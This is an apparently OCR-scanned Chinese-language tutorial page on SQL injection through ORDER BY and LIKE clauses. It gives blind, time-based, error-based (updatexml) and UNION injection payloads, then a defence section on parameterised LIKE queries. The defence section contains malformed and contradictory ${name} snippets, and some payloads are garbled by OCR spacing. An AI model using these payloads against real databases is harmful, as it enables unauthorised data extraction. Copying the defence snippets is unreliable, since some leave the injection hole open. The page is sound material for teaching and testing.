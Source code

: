 ## **orderby**
orderby可能出现三种场景：
```
order by 1，通过第几个字段来排序。变量是数值，可预编译，变量可以是字符。
order by "name"，通过某个字段名排序。变量是字符串，不可预编译。

group by sex order by count(*)，分组后通过分组后的数排序，相当于新增了一个字段，通过这个字段排序。一般不可控，排除注入。
```

orderby注入：可控参数判断过滤后类型是数值还是字符。
```
传入rand()在数字型中，每次刷新会显示不同的排序结果
当在字符型中用?sort=rand(),则不会有效果,排序不会改变

因此用rand()可判断注入点过滤后类型。
```
<https://www.cnblogs.com/1ink/p/15107674.html>
orderby利用：因为排序差异可使用布尔盲注，或者时间盲注，不可以联合注入，因为orderby必须在一个sql语句最后。
```
//?order=if(表达式,id,loginName)
//表达式为true时,根据id排序
//表达式为false时,根据loginName排序

order by sleep(5) 不可。
select * from users order by if(concat(0 x 7 e,user(), 0 x 7 e), 1,sleep(3));
```
报错回显
```
order by updatexml(1, if (1=2,1,concat(0 x 7 e,database(), 0 x 7 e)), 1);
order by GTID_SUBSET((version(),1)))
```


^
## **like**
like可以使用联合注入。
like一般也在where语句之后。
```
1、where name like xx
where name like 'admin' union select 1,2,3,database()
'admin'+union+select+sleep(15)

2、where name like "xx"
where name like " admin" union select 1,2,3,database()-- "

admin'+union+select+sleep(15)--+
```


防御


like避免sql注入的示例：

在区分数据库下的用法区分，例如：

```
//mysql环境

select * from test where school_name like concat('%',${name},'%') 

//oracle环境

select * from test where school_name like '%'||${name},'%' 

//SQL Server环境

select * from test where school_name like '%'+${name},+'%'




#### Mysql数据库

sql = " and indexNum like concat('%',?,'%') "

#### [Oracle]

sql = " like '%' || ? || '%' "

#### []()SQL Server

sql = " like '%' + ? + '%' "


```



